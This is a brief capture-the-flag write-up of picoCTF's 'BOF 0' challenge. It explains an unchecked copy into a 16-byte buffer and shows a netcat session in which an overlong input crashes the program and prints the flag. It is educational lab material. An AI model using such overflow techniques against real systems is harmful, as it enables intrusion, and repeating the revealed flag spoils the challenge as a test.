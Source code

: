 # BOF 0

## Code inspection

Looking at the code, we see that the program reads the flag from the file into a global buffer,
and it sets a signal handler of SIGSEGV which prints the flag.

Also, at the `vuln` function, we copy a buffer into a 16 bytes buffer, without checking the size of the src buffer.

## Getting the flag

So all we have to do is cause a SIGEGV error, which is easy to do if we input more than 16 chars.

```
shahar@shahar-pc:~/Documents/CTF/pico/bof0$ nc saturn.picoctf.net 53935
sInput: ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}

```